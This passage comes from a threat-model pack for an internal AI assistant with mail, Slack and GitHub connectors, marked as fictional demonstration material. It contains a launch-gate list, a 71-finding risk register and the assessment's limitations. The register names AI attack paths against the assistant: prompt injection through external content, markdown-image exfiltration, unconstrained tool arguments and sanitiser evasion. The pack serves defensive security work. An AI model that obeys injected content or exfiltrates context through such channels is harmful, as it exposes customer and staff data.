| **SOC 2 Type II** `[VS §7 · CONFIRMED]` | **Applies indirectly, and the organisation is confirmed SOC 2 Type II.** v1.0 inferred the control environment; the Data Protection Officer confirmed the certification. The assistant is not a customer-facing service, so it is not itself in a SOC 2 boundary. It reads systems that hold customer data and is operated by a team whose controls may be in one | It inherits the criteria as an internal control question rather than as an audit scope. Open against five of the trust services criteria | CC6.1 and CC6.3 (E1, E2, E3, S1), CC7.1 (R1, R4, CL2), CC8.1 (T1, O1, O4), C1 (I1, I2, P4), A1 (D1, D3, CL3) | 🔴 Open |
| **EU AI Act** | **Unassessed, and blocked.** PR-03 records that the group AI governance workstream has not started. On the current design the assistant is most likely limited-risk with Article 50 transparency obligations; if it is ever used for anything bearing on employment decisions, Annex III would need testing | The applicability assessment itself, and Article 50 transparency at the point of use | O3, P6, S4 | 🔴 Open |
| **ISO 27001 / Cyber Essentials** `[VS §7 · CORRECTED]` | **Does not apply.** v1.0 recorded this as "applies if the organisation is certified", conditional because certification status was not stated in any supplied source. **The organisation is not ISO 27001 certified**, confirmed by the Data Protection Officer, so the conditional resolves to not applicable. SOC 2 Type II is the certification held and is assessed in the row above | None as an ISO obligation. The four control families v1.0 named remain live as findings under their own headings — access control (E1), logging (R1), supplier management (AI10, P4) and secure development (O1, O4, **O6**, **O7**) — they simply are not ISO 27001 obligations | — | ⚪ Assessed: does not apply |

---

## 8. Design Flaw Summary — Fix Before GA

These are design and deployment items that no amount of careful coding fixes. The gate is GA and the next pilot expansion, not the FY26 board date — PR-01 records that date as immovable, which is precisely why the list is ordered by what buys the most safety per unit of delivery time rather than by severity alone.

**Launch gates — do not reach GA or expand the pilot without these**

1. **E1, S2, R2, O1 — Per-user delegated authorisation.** *This is the single most important item in the pack.* Complete PLAT-2820. It is blocked on Identity Platform, requested 2026-04-18 and unscheduled, which makes it a portfolio escalation rather than an engineering task. Until it lands, apply the interim narrowing in E1's mitigation and record the residual in an ADR with a named owner. And correct the architecture page today, because the documentation defect (O1) costs nothing to fix and is currently propagating the gap to other teams.
2. **AI2, I3 — Deterministic output filtering at the rendering boundary.** CSP and a markdown subset that strips image and link tags, in both surfaces and on outbound content. `[VS §4 · CORRECTED]` **Approximately three days, not one** — a day for the CSP header (K. Osei) and two for the markdown subset across two renderers plus the outbound composer (P. Raghunathan), with TA-04 and TA-05 passing as the completion condition. It still closes the only attack path in this model that needs no credential at any stage, and it is still the cheapest thing on this list.
3. **AI3, AI4, T3 — Argument allowlists and confirmation on irreversible action.** Validate values at the dispatcher; confirm on external mail, non-member channel posts, all commits, and any action whose arguments derive from retrieved content. Answers the pilot group's objection by narrowing what is confirmed rather than by confirming nothing.
4. **P1 — Decide the Support shared mailbox.** Run the DPIA the team's own open question has been asking for since June, and set a date past which Support's use does not continue without its outcome. In the interim, a mailbox allowlist at the connector is a deterministic block that costs an afternoon.
5. **R1, R3 — A dispatch record, and an action display that reads from it.** Both, in that order. R1 is the evidence every incident scenario in this model depends on; R3 is the control users are already trusting and which is currently falsifiable.
6. **C1, C6, I4, AI10 — Isolate the connector runtime.** One namespace, one service account and one secret scope per connector, and a sandboxed runtime for the web-search connector. This is the only chain in the model where a single compromise reaches every credential the assistant holds.
7. **S1, I1, O2 — SSO on the web console.** Complete PLAT-2831-3. P. Raghunathan's own comment sets the gate: "Needs SSO before anyone outside the pilot sees it."
8. **O7 — Take the input-channel trust decision.** `[VS §3 · NEW]` It does not exist and cannot be inferred from PLAT-2814's acceptance criterion. Owner M. Oyelaran with K. Osei and I. Ferreira, before any expansion. This is a launch gate rather than hygiene because AI1's mitigation, AC-05 and the SEC-19 provenance requirement all depend on a classification that nobody has written down, and because the next expansion will inherit the same unexamined sentence if it is not taken first.

**The pilot does not expand again until items 2, 4 and 8 are complete.** `[VS §9 · CONFIRMED]` Standing constraint, owner D. Whitfield (Appendix I, action 30). This is the session's own gate and it is narrower than this list — the other launch gates continue to be worked, but the three named here bound further expansion outright.

**Fast, cheap hardening that should not wait**

- **D1, D3** — hard caps on tokens per turn, per conversation and per user per day, and an iteration ceiling on the agent loop. Hours of work; removes the unbounded-cost class outright.
- **T2** — remove document and mail bodies from the debug logging path rather than gating them behind a flag.
- **E2** — schedule PLAT-2814-6. The finding is not that the scopes are wide, it is that narrowing them is "Not scheduled".
- **AI11, O5** — name a kill-switch owner and write four incident playbook entries. A page of writing, and every containment step depends on it.
- **AI12, AI9** — start the AI-BOM with the four MCP servers and the model version, and pin them.
- **C2, C4** — Restricted Pod Security Admission on the assistant namespaces, resource limits, and `automountServiceAccountToken: false`. Configuration, not development. `[VS §8 · CLOSED]` **C5 is removed from this line**: it closed on the platform workload-identity baseline, owner K. Osei, and is carried as accepted risk **AR-01** with the dissent recorded. C2 remains open as the enforcement item.
- **O6** — record the `platform-ci` branch-protection exemption where the control is claimed. `[VS §2 · NEW]` A row in a register; it is on this list because it costs nothing and because two findings' compensating credit currently depends on a boundary nobody can verify from the documents.
- **I4, CL1** — split the shared connector secret per connector. `[VS §8 · NEW]` On this list rather than in the isolation work because rotation is currently an outage and therefore never happens, which is a live degradation rather than a design gap.
- **P2** — drop the user dimension from telemetry after the billing period. One scheduled job.

**Decisions to ratify, not fix**

- **P4, D-01** — the model provider agreement was a portfolio-level commercial decision. Verify its scope; where it does not cover this processing, carry the residual explicitly in an ADR with the COO office as owner rather than as an assumption.
- **AI6, AI7** — the adversarial subspace and boundary-transfer hazards cannot be closed. Ratify that the security guarantees rest on the deterministic controls above and that the sanitiser is not load-bearing, in writing, so that no future design page cites it as a reason untrusted content is safe.
- **O3, PR-03** — proceeding without group AI governance was accepted at the July steering group. Ratify the interim gate in O3's mitigation as the standard this system is held to until the workstream starts. `[VS §7 · CORRECTED]` This is no longer only a governance-vacuum argument: the NIS2 Article 21 measures apply to this organisation contractually, through two customers, so the interim gate is the mechanism by which an existing obligation gets met rather than a prudent substitute for one.
- **AI4** — `[VS §5 · ACCEPTED]` the absence of confirmation on outbound mail and Slack posts is carried as accepted risk **AR-02**, owner D. Whitfield, time-boxed to three weeks pending her risk-based confirmation model. The finding is not ratified — only the interim residual is, and only for as long as the box lasts.
- **C5** — `[VS §8 · ACCEPTED]` accepted risk **AR-01**, owner K. Osei: cluster RBAC and token mounting covered by the platform workload-identity baseline, unverified against manifests, with the dissent and the review trigger recorded in the finding.

---

## 9. Risk Register

| ID | Threat | Category | Ref | Severity | Likelihood | Compliance | Mitigation (summary) | Jira | Status |
|---|---|---|---|---|---|---|---|---|---|
| **S1** | Console authenticated by a shared password | STRIPED-S | OWASP A07, Cumulus AS-10 | **High** | High | GDPR Art. 32 | SSO with MFA; scope history to the subject; remove the shared credential | PLAT-2831-3 | 🔵 Planned |
| **S2** | One shared app registration instead of per-user credentials | STRIPED-S | OWASP A07, SOC 2 CC6.1 | **Critical** | High | GDPR Art. 5(1)(f) | Delegated OAuth per connector per user; escalate the blocked dependency | PLAT-2820 | 🔵 Planned |
| **S3** | Conversation identifier resumes a session and its context | STRIPED-S | OWASP A01 | **Medium** | Medium | GDPR Art. 32 | Bind conversation to an authenticated subject; re-check on every turn | PLAT-2831-3 | 🔴 Open |
| **S4** | Recipients cannot tell assistant-sent from human-sent | STRIPED-S | OWASP A07, EU AI Act Art. 50 | **Medium** | High | GDPR Art. 5(1)(a) | Dispatcher-added provenance marker on posted and sent content | PLAT-2817-2 | 🔴 Open |
| **S5** | Connectors trusted by namespace rather than authenticated | STRIPED-S | OWASP A07, K07 | **Medium** | Medium | — | mTLS with workload identity and an authorisation policy per connector | PLAT-2814-1 | 🔴 Open |
| **T1** | Model selection changes security behaviour outside review | STRIPED-T | OWASP A05, LLM03 | **Medium** | Medium | SOC 2 CC8.1 | Allowlist model tiers by workspace classification; audit the change; pin versions | PLAT-2822-2 | 🔴 Open |
| **T2** | Debug logging of tool arguments is a flag away from a spill | STRIPED-T | OWASP A09, Cumulus MO-A | **High** | Medium | GDPR Art. 5(1)(c), Art. 32 | Log shape and hashes, never content; allowlist log fields at the pipeline | PLAT-2814-1 | 🔴 Open |
| **T3** `[VS §2 · CORRECTED]` | Commit rights across every repository in the organisation | STRIPED-T | OWASP A08, ATT&CK T1195 | **High** | **High** *(was Medium)* | SOC 2 CC8.1 | Scope the installation; allowlist and canonicalise paths; confirm on commit; **commit tool disabled at the dispatcher in the interim** | PLAT-2817-3 | 🔴 **Open** *(was 🟡 partial)* — branch protection bounds protected branches and the assistant commits to working branches, so the partial credit was for a path it does not take. See also **O6** |
| **T4** | Conversation store writable by anything in the namespace | STRIPED-T | OWASP A01, LLM04, K08 | **High** | Medium | GDPR Art. 32 | Redis ACL and TLS; orchestrator-only write; per-turn integrity check | PLAT-2814-1 | 🔴 Open |
| **R1** | Tool arguments not recorded, so actions cannot be reconstructed | STRIPED-R | OWASP A09, SOC 2 CC7.1 | **High** | High | GDPR Art. 5(2), Art. 33 | Append-only dispatch audit record with arguments, hashed for volume | PLAT-2825-1 | 🔴 Open |
| **R2** | Target systems attribute every action to the shared registration | STRIPED-R | OWASP A09, SOC 2 CC6.1 | **High** | High | GDPR Art. 5(2) | Delegated tokens so the SaaS platform records the person | PLAT-2820 | 🔵 Planned |
| **R3** | Action display rendered from the model's narration | STRIPED-R | OWASP A09, EoA·T1, ASI09 | **High** | Medium | GDPR Art. 5(2) | Render the action list from the dispatcher record, not from model prose | PLAT-2825-1 | 🔴 Open |
| **R4** | No correlation identifier spans the services | STRIPED-R | OWASP A09, Cumulus MO-6 | **Medium** | High | SOC 2 CC7.1 | Per-dispatch correlation ID carried into the outbound SaaS request | PLAT-2825-1 | 🔴 Open |
| **R5** | Conversation deletion removes the only action record | STRIPED-R | OWASP A09, Cumulus RC-K | **Medium** | Medium | GDPR Art. 5(2) | Separate the audit record from the user-deletable conversation | PLAT-2825-2 | 🔴 Open |
| **I1** | Console history exposes other users' retrieved content | STRIPED-I | OWASP A01, SOC 2 C1 | **High** | High | GDPR Art. 5(1)(f) | SSO plus server-side scoping; store excerpts and references, not bodies | PLAT-2831-3 | 🔵 Planned |
| **I2** | Conversation store aggregates Confidential data unprotected | STRIPED-I | OWASP A02, K08 | **High** | Medium | GDPR Art. 32 | Encryption, authentication, per-user key namespace, orchestrator-only reach | PLAT-2814-1 | 🔴 Open |
| **I3** | Egress allowlist includes hosts accepting attacker-chosen content | STRIPED-I | OWASP A10, ATT&CK T1567 | **High** | Medium | GDPR Art. 32 | Path and shape limits per destination; exclude public repositories | PLAT-2814-5 | 🟡 partial, egress allowlist bounds destinations, PLAT-2814-5 |
| **I4** | Connector credentials mounted into pods running third-party code | STRIPED-I | OWASP A05, D06, ATT&CK T1552.001 | **High** | Medium | GDPR Art. 32 | One secret scope, one service account and one namespace per connector | PLAT-2814-1 | 🔴 Open |
| **P1** | Support mailbox processes customer data with no basis or DPIA | STRIPED-P | LINDDUN-Dd, LINDDUN-Nc | **Critical** | High | GDPR Art. 6, 14, 35 | DPIA with a date; interim mailbox allowlist at the connector | PLAT-2814-2 | 🔴 Open |
| **P2** | Per-user telemetry retained 13 months for a team dashboard | STRIPED-P | LINDDUN-L, LINDDUN-Nr | **High** | High | GDPR Art. 5(1)(b), 5(1)(c) | Drop the user dimension after the billing period; restrict the partition | PLAT-2822-1 | 🔴 Open |
| **P3** | No deletion path spans the four stores | STRIPED-P | LINDDUN-Nc, EoA·CK | **High** | High | GDPR Art. 15, 16, 17 | One erasure operation across all stores, triggered on offboarding, drilled | PLAT-2825-2 | 🟡 partial, 24h TTL and user deletion cover one store, PLAT-2825-2 |
| **P4** | Prompts sent to a sub-processor under another team's agreement | STRIPED-P | LINDDUN-Nc | **High** | High | GDPR Art. 28, 44 | Confirm DPA scope in writing; minimise input before transmission | PROD-1131 D-01 | 🔴 Open |
| **P5** | Session context neither minimised nor bounded to one purpose | STRIPED-P | LINDDUN-L, EoA·CJ | **Medium** | High | GDPR Art. 5(1)(b), 5(1)(c) | Context budget, retrieval expiry, fresh session on data-class change | PLAT-2810 | 🔴 Open |
| **P6** | No privacy notice reaches any audience | STRIPED-P | LINDDUN-U, EoA·C10 | **High** | High | GDPR Art. 12, 13, 14 | Three notices for three audiences; a persistent machine-generated marker | PROD-1131 | 🔴 Open |
| **P7** | Calendar and mail access allows special-category inference | STRIPED-P | LINDDUN-I, EoA·CQ | **High** | Medium | GDPR Art. 9 | Field allowlist at the O365 connector; delegated credentials remove most, not all, of the source | PLAT-2814-2 | 🔴 Open |
| **P8** `[VS §3, §7 · NEW]` | Two customers carrying contractual security obligations correspond through the least-governed channels | STRIPED-P | LINDDUN-Dd, NIS2 Art. 21 by contract | **High** | High | GDPR Art. 6, 14, 28 | Bring the three Slack Connect channels into O7's classification by name; enumerate the two contracts' measures in the register; sequence AI2 ahead of any Connect expansion | none | 🔴 Open |
| **E1** | Application permissions reach anything in the tenant | STRIPED-E | OWASP A01, ATT&CK T1078.004, Cumulus AS-8 | **Critical** | High | GDPR Art. 5(1)(f), Art. 32 | Delegated OAuth; interim application access policy scoping the registration | PLAT-2820-3 | 🔵 Planned |
| **E2** | Slack app holds the full prototype scope set | STRIPED-E | OWASP A01, Cumulus AS-2 | **High** | Medium | SOC 2 CC6.3 | Narrow to the designed scopes; dispatcher check against the design list | PLAT-2814-6 | 🔵 Planned |
| **E3** | GitHub app installed at organisation scope with write | STRIPED-E | OWASP A01, ATT&CK T1195 | **High** | Medium | SOC 2 CC6.3 | Named repository list; exclude public repositories; split read from write | PLAT-2814-4 | 🔴 Open |
| **E4** | A new workspace inherits the widest configuration | STRIPED-E | OWASP A05, Cumulus RS-5 | **Medium** | High | SOC 2 CC6.3 | Per-workspace scope record; empty means refuse, not unrestricted | PLAT-2831 | 🔴 Open |
| **E5** | Authorisation evaluated at start, never at resumption | STRIPED-E | OWASP A01, SOC 2 CC6.2 | **Medium** | Medium | GDPR Art. 32 | Re-check the subject every turn; terminate sessions on offboarding | PLAT-2820-2 | 🔴 Open |
| **D1** | No hard cap on token spend | STRIPED-D | OWASP A04, LLM10, Cumulus RS-6 | **High** | High | — | Caps per turn, conversation, user-day and workspace-month, refusing at the ceiling | PLAT-2822-4 | 🔴 Open |
| **D2** | Rate limiting absorbed by retry rather than a breaker | STRIPED-D | OWASP A04, EoA·HJ | **Medium** | High | SOC 2 A1 | Retry budget with jitter and a circuit breaker on repeated refusal | PLAT-2814-1 | 🔴 Open |
| **D3** | Tool-call fan-out has no iteration ceiling | STRIPED-D | OWASP A04, LLM10, ASI08 | **High** | High | — | Iteration, tool-call and wall-clock ceilings enforced in the loop | PLAT-2817-1 | 🔴 Open |
| **D4** | Shared store and connector pool have no per-user quota | STRIPED-D | OWASP A04, Cumulus RS-6 | **Medium** | Medium | SOC 2 A1 | Per-subject rate and concurrency limits; separate pools per workspace class | PLAT-2814-1 | 🔴 Open |
| **D5** | Partial answers indistinguishable from complete ones | STRIPED-D | OWASP A09, LLM09 | **Medium** | High | SOC 2 A1 | Render failed-tool state from the dispatch outcome, not from model prose | PLAT-2825-1 | 🔴 Open |
| **O1** | Approved page documents an authorisation control that does not exist | Cross-cutting | OWASP A04, SOC 2 CC8.1 | **Critical** | High | GDPR Art. 5(2) | Mark control claims with their delivering ticket and its state; review gate | PLAT-2820 | 🔴 Open |
| **O2** | Console sits outside the organisation's SSO and MFA standard | Cross-cutting | OWASP A07, SOC 2 CC6.1 | **High** | High | NIS2 Art. 21 | Exceptions register on the standing page, with owner and expiry | PLAT-2831-3 | 🔴 Open |
| **O3** | No AI governance gate; workstream not started | Cross-cutting | OWASP A04, NIS2 Art. 21 | **High** | High | GDPR Art. 35 | Interim gate owned jointly by Platform Security and Legal, four questions | PMO-0447 PR-03 | 🔴 Open |
| **O4** | Pilot expanded into a new data class without the scheduled review | Cross-cutting | OWASP A04, Cumulus RS-5 | **Medium** | High | SOC 2 CC8.1 | Gate expansion on an onboarding record with a review reference | PROD-1131 | 🔴 Open |
| **O5** | No incident response process for AI-specific incidents | Cross-cutting | OWASP A09, Cumulus MO-Q | **Medium** | High | GDPR Art. 33, NIS2 Art. 23 | Four playbook entries with owners, containment, evidence and notification | PMO-0447 | 🔴 Open |
| **O6** `[VS §2 · NEW]` | Branch protection carries a standing exemption recorded in no citable document | Cross-cutting | OWASP A08, SOC 2 CC8.1 | **High** | High | NIS2 Art. 21(2)(d) by contract | Record the `platform-ci` exemption in the standing controls page or the exceptions register, with compensating control, owner and expiry; fail the settings pipeline when register and configuration disagree | none | 🔴 Open |
| **O7** `[VS §3 · NEW]` | A load-bearing security position was inherited across three artefacts and never decided | Cross-cutting | OWASP A04, SOC 2 CC8.1 | **High** | High | GDPR Art. 5(2), Art. 25 | Take a written decision classifying every input channel by author and stating its handling; cite it by ID from the pages and stories that currently imply it | none | 🔴 Open |
| **AI1** | Externally-authored content reaches the model as instructions | AI | LLM01, ASI01, EoA·SA, ATLAS AML.T0051.001 | **Critical** | High | GDPR Art. 32 | Provenance-delimited context; provenance-gated dispatch; enforcement outside the model | PLAT-2814 | 🔴 Open |
| **AI2** | Markdown rendering exfiltrates context from the user's client | AI | LLM05, EoA·S10, ATLAS AML.T0077 | **Critical** | High | GDPR Art. 32, Art. 33 | CSP img-src self and a markdown subset stripping image and link tags | PLAT-2831-2 | 🔴 Open |
| **AI3** | Tool arguments unconstrained by allowlist or schema values | AI | LLM06, ASI02, EoA·SK, ATLAS AML.T0053 | **Critical** | High | GDPR Art. 32 | Value-level validation at the dispatcher before the call leaves the runtime | PLAT-2817-1 | 🔴 Open |
| **AI4** | Irreversible actions execute with no confirmation | AI | LLM06, ASI09, EoA·T3, ATLAS AML.T0053 | **High** | High | — | Confirmation on risk, keyed on irreversibility and argument provenance | PLAT-2817 | 🔴 Open |
| **AI5** | Context rot over untrimmed 24-hour sessions | AI | LLM01, EoA·T5, ATLAS AML.T0094 | **High** | High | — | Context budget, retrieval expiry, rolling re-injection, fresh session on write | PLAT-2810 | 🔴 Open |
| **AI6** | Adversarial subspace defeats the web-search sanitiser | AI | LLM01, EoA·T7, ATLAS AML.T0068 | **High** | High | — | Move the guarantee to deterministic controls; document the sanitiser as non-load-bearing | PLAT-2814-5 | 🟡 partial, sanitiser reduces naive injection rates, PLAT-2814-5 |
| **AI7** | Decision boundary transfer hides attack development | AI | LLM01, EoA·T4, ATLAS AML.T0005 | **Medium** | Medium | — | Detection on repeated probing, near-miss clusters and rephrase-retry sequences | PLAT-2825-1 | 🔴 Open |
| **AI8** | Cross-server data flow through one MCP client | AI | ASI07, EoA·H9, ATLAS AML.T0086 | **High** | Medium | GDPR Art. 32 | Client-side data-flow policy by server sensitivity; namespaced tool names | PLAT-2814-1 | 🔴 Open |
| **AI9** | Tool descriptions are instructions that change without review | AI | LLM03, ASI04, EoA·S9, ATLAS AML.T0110.000 | **High** | Medium | SOC 2 CC8.1 | Pin by digest, hash descriptions, verify at start-up, diff-review on bump | PROD-1131 D-02 | 🔴 Open |
| **AI10** | Community MCP server unvetted, unpinned and uninventoried | AI | LLM03, ASI04, EoA·SQ, ATLAS AML.T0010.005 | **High** | Medium | NIS2 Art. 21 | AI-BOM entry, digest pin, signature verification, own namespace and sandbox | PLAT-2814-5 | 🔴 Open |
| **AI11** | No agent inventory, baseline or kill switch | AI | ASI10, EoA·H10, ATLAS AML.T0103 | **High** | High | NIS2 Art. 23 | Named owner, granular stop mechanism with a stated propagation time, drilled | PLAT-2810 | 🔴 Open |
| **AI12** | Model, prompts and tool descriptions not inventoried | AI | LLM03, EoA·T2, ATLAS AML.T0109 | **Medium** | High | SOC 2 CC8.1 | AI-BOM emitted with each request's telemetry; pinned versions | PLAT-2822-1 | 🔴 Open |
| **AI13** | Hallucinated statements about people published as the user | AI | LLM09, EoA·DQ, ATLAS AML.T0031 | **High** | High | GDPR Art. 5(1)(d), Art. 16 | Schema-enforced citations checked against the dispatcher's retrieval record | PLAT-2817-2 | 🔴 Open |
| **AI14** | Conversation state is memory with no provenance or partition | AI | LLM04, ASI06, EoA·SJ, ATLAS AML.T0080.001 | **High** | Medium | GDPR Art. 32 | Provenance on stored turns; instruction channel carries user and system only | PLAT-2825-2 | 🔴 Open |
| **AI15** | System prompt undocumented and leakage unassessed | AI | LLM07, EoA·D10, ATLAS AML.T0056 | **Medium** | Medium | — | Version the prompt as code; remove enumerations; rest no guarantee on it | PLAT-2810 | 🔴 Open |
| **CL1** | Long-lived connector and provider credentials | Cloud | ATT&CK T1078.004, Cumulus AS-3 | **High** | Medium | SOC 2 CC6.1 | Maximum age with automated rotation; split the shared secret first | PLAT-2820-2 | 🔴 Open |
| **CL2** | No cost or spend anomaly alerting | Cloud | Cumulus MO-7, LLM10 | **Medium** | High | SOC 2 A1 | Anomaly and absolute alarms on per-workspace token rate, paging on-call | PLAT-2822-4 | 🔵 Planned |
| **CL3** | No backup, restore drill or DR plan | Cloud | Cumulus RC-A, Cumulus RC-J | **Medium** | Medium | SOC 2 A1 | Per-store position stated; versioned state; drilled restore with a recorded result | PLAT-2810 | 🔴 Open |
| **CL4** | Environment separation unstated | Cloud | Cumulus RS-Q, ATT&CK T1199 | **Medium** | Medium | SOC 2 CC6.1 | Account-boundary separation with distinct registrations and secrets | PLAT-2810 | 🔴 Open |
| **CL5** | Telemetry warehouse access control unstated | Cloud | Cumulus MO-5 | **Medium** | Medium | GDPR Art. 32 | Restrict the partition to two roles; log access; minimise per P2 | PLAT-2822-1 | 🔴 Open |
| **CL6** | Node identity reachability from connector pods unverified | Cloud | ATT&CK T1528, Cumulus AS-9, K03 | **High** | Medium | GDPR Art. 32 | IRSA per workload, IMDSv2 with hop limit 1, minimal node role | PLAT-2814-1 | 🔴 Open |
| **C1** | Connectors share the orchestrator namespace | Container | K07, ATT&CK T1046, CIS-K8s 5.3.2 | **High** | Medium | — | Namespace per connector with default-deny ingress and egress | PLAT-2814-1 | 🔴 Open |
| **C2** | No admission control on pod security, limits or provenance | Container | K04, K01, PSS Restricted | **High** | Medium | — | Restricted Pod Security Admission plus a policy engine in enforce mode | PLAT-2814-1 | 🔴 Open |
| **C3** | Images not digest-pinned or signature-verified at admission | Container | K02, D08, ATT&CK T1195 | **High** | Medium | NIS2 Art. 21 | Digest references, cosign signing and admission-time verification, SBOM per image | PLAT-2814-5 | 🟡 partial, platform image scanning and weekly rebuild, PLAT-2814-1 |
| **C4** | No resource limits on assistant workloads | Container | D07, ATT&CK T1499, CIS-K8s 5.7.3 | **Medium** | Medium | SOC 2 A1 | Requests and limits on every workload, enforced at admission | PLAT-2814-1 | 🔴 Open |
| **C5** `[VS §8 · CLOSED]` | Cluster RBAC and token mounting unstated | Container | K03, ATT&CK T1552.007, CIS-K8s 5.1.5 | **Medium** | Medium | — | Closed as covered by the platform workload-identity baseline. **Accepted risk AR-01, owner K. Osei**; dissent from P. Raghunathan recorded; reopens on a manifest pass showing a template deviation, or if any component acquires a Kubernetes API call. TA-10 and TA-11 still test the property | PLAT-2814-1 | ⚪ **Accepted** *(was 🔴 Open)* |
| **C6** | Hostile input processed with no isolation boundary | Container | K01, ATT&CK T1611, ATLAS AML.T0105 | **High** | Medium | NIS2 Art. 21 | Sandboxed runtime or tainted node pool, no secrets, no token, egress to one host | PLAT-2814-5 | 🔴 Open |
| **RR1** | No tested rollback for model configuration or connector scope | Recovery & Resilience | Cumulus RC-3, Cumulus RC-8 | **Medium** | Medium | SOC 2 A1 | Scopes and configuration as versioned code; drill the reversal and record it | PLAT-2814-6 | 🔴 Open |

\* **P1** carries a conditional severity. It is Critical while Support's shared mailbox is in active connector scope with real customer correspondence, which it has been since 2026-06-09. Remove the mailbox from scope and it falls to Medium as a design risk against future expansion. The conditionality is recorded here rather than folded into the rating so that the sequencing argument stays honest: the cheapest way to move P1 from Critical to Medium is a connector allowlist, not a DPIA, and the DPIA is still required.

**Roll-up.** `[VS · v1.1]` Changed rows are marked. The arithmetic of the change: T3 moves Partial → Open; C5 moves Open → Accepted; O6, O7 and P8 are added as Open.

| Bucket | Findings | Open | Partial | Planned | Mitigated | Accepted |
|---|---|---|---|---|---|---|
| S — Spoofing | 5 | 3 | 0 | 2 | 0 | 0 |
| T — Tampering *(changed)* | 4 | **4** | **0** | 0 | 0 | 0 |
| R — Repudiation | 5 | 4 | 0 | 1 | 0 | 0 |
| I — Information Disclosure | 4 | 2 | 1 | 1 | 0 | 0 |
| P — Privacy *(changed)* | **8** | **7** | 1 | 0 | 0 | 0 |
| E — Elevation of Privilege | 5 | 3 | 0 | 2 | 0 | 0 |
| D — Denial of Service | 5 | 5 | 0 | 0 | 0 | 0 |
| O — Cross-cutting *(changed)* | **7** | **7** | 0 | 0 | 0 | 0 |
| AI — AI/ML | 15 | 14 | 1 | 0 | 0 | 0 |
| CL — Cloud | 6 | 5 | 0 | 1 | 0 | 0 |
| C — Container *(changed)* | 6 | **4** | 1 | 0 | 0 | **1** |
| RR — Recovery & Resilience | 1 | 1 | 0 | 0 | 0 | 0 |
| **Total** | **71** | **59** | **4** | **7** | **0** | **1** |

| | v1.0 | v1.1 |
|---|---|---|
| Findings | 68 | **71** |
| Open | 56 | **59** |
| Partially mitigated | 5 | **4** |
| Planned | 7 | 7 |
| Mitigated | 0 | 0 |
| Accepted | 0 | **1** |

Severity distribution: **7 Critical, 40 High, 24 Medium, 0 Low, 0 Info.** `[VS · v1.1]` The three added findings — O6, O7 and P8 — are all High. **No finding crossed the Critical boundary in either direction**, and the only severity movement in the register is T3's likelihood, Medium to High.

Seven Critical findings is a high count for a system this small, and the reason is concentration rather than breadth: five of the seven (S2, E1, O1, AI1, AI3) describe one structural condition from five angles — the assistant holds a credential nobody's entitlements bound, the documentation says otherwise, untrusted content can direct it, and nothing constrains what it does with it. Fix delegated authorisation and add argument allowlists and the Critical count falls to two. The remaining two are independent: AI2 is an exfiltration channel that closes with a response header, and P1 is a lawful-basis question that closes with a decision. Nothing here is a reason not to build this system. Several are reasons not to expand it further first.

`[VS · v1.1]` **What the validation session did to that shape.** It did not change it, and that is the most useful thing to say about the session's outcome. Every severity the room walked was confirmed, including by the people whose work the finding criticised; nothing was traded down; the one finding that closed (C5) closed on an owner's answer and is carried as an accepted risk with the dissent attached. The three additions cluster where the pack was weakest rather than where it was wrong: **O6** and **O7** are both instances of the documentation-drift mechanism the pack named as O1, found by a room rather than by a document, and **P8** is a concentration that existed in two people's heads and no artefact. The direction of travel is worth naming plainly: **a session with the people who built the system made this pack larger, not smaller.**

---

## 10. Merge Reconciliation

No parent or programme threat model was supplied, and none is referenced in any Confluence page or ticket. There is therefore nothing to reconcile against: no inherited findings apply here, none are excluded as already-accepted at programme level, and all 71 findings are net-new.

`[VS §2, §3, §8 · NEW]` **v1.1 adds a second absence to the first, and it is the sharper of the two.** The organisation has no threat baseline, which is what this section already said. The session established that it also has **no complete control baseline that can be read** — the standing platform security controls page is the artefact designs are instructed to cite, and three things that materially change what it means are not on it: the `platform-ci` branch-protection exemption (**O6**), the fact that the assistant's connectors run unpinned on a floating tag (AI10, C3), and the fact that the segmentation control it describes does not separate anything in this design (C1). Two of the three were known to individuals in the room and to no document. The consequence for reconciliation is specific: **a workload model cannot inherit this organisation's control baseline safely, because the baseline's exceptions live somewhere other than the baseline.** COMP-15's exceptions register and **O6**'s mitigation are the same fix, and O3's interim gate is where a threat baseline would begin.

This is worth stating rather than omitting, because it has a consequence. The platform security controls page functions as a *control* baseline and is used well — it is cited by the architecture page and it closes eleven prompts outright in this pass. What the organisation does not have is a *threat* baseline: a programme-level model that records which risks have already been assessed and accepted at group level, so that a workload model can inherit them instead of re-deriving them. PR-03 describes the same absence from the governance direction. The recommendation in O3 would produce the beginnings of one.

---

## 11. Assumptions & Limitations

- **Inputs.** This model reflects three Confluence pages, one SVG diagram and two ticket files as supplied in `input/` on 2026-09-09. Ticket statuses are point-in-time as extracted; PLAT-2820, PLAT-2814-6 and PLAT-2831-3 may have moved since. The material is marked "Fictional, for conference demonstration purposes" on every page and has been analysed as though it described a real system.
- **Documentation read, code not read.** No source code, Terraform, Helm charts, Kubernetes manifests, Dockerfiles, build or pipeline definitions, MCP server manifests, prompt templates or data schemas were supplied, despite the engagement brief naming git repositories as a source. Every finding here derives from design documents and tickets. The findings most affected — I2, T4, S5, CL3, CL4, CL5, CL6, C2, C4, C5 and parts of C3 — are tagged **"if present"** in their Issue lines and rest on the *absence of a statement* rather than on an *observed absence*. A code pass would confirm or refute each, and `00-context-sources-and-open-questions.md` §6 lists the specific artefact that would settle every one.
- **The data model is reconstructed.** `03-security-architecture.md` §2.4 builds an entity model from prose because no DDL, migrations or ERDs exist in the supplied material. Field-level classification, encryption-at-rest status and free-text PII accumulation are inferred, so every privacy and at-rest conclusion drawn from it carries the same "if present" caveat.
- **Roots of trust assumed.** The corporate identity provider and its MFA enforcement; the VPN; the AWS control plane, KMS and Secrets Manager services; the EKS managed control plane; the vendor SaaS platforms' own authorisation decisions; and the model provider's contractual undertakings, which P4 records as unverified rather than assumed sound.
- **Threat-model stance.** External correspondents are treated as unauthenticated adversaries with write access to content the organisation retrieves, because that is what a published support address is. Employees are treated as trusted but capable of curiosity, which is what the shared console password makes consequential. The model provider is treated as a contracted sub-processor rather than as an adversary.
- **Sibling epics not analysed.** PLAT-2790 (search indexing, delivered) and PLAT-2856 (analytics, not started) are named under PROD-1131 but their tickets were not supplied. PLAT-2790 in particular may introduce a retrieval corpus, which would open the vector-store and RAG surface recorded here as not in scope (EoA·DK, AIX·SK11). That is the most likely source of findings this pass could not reach.
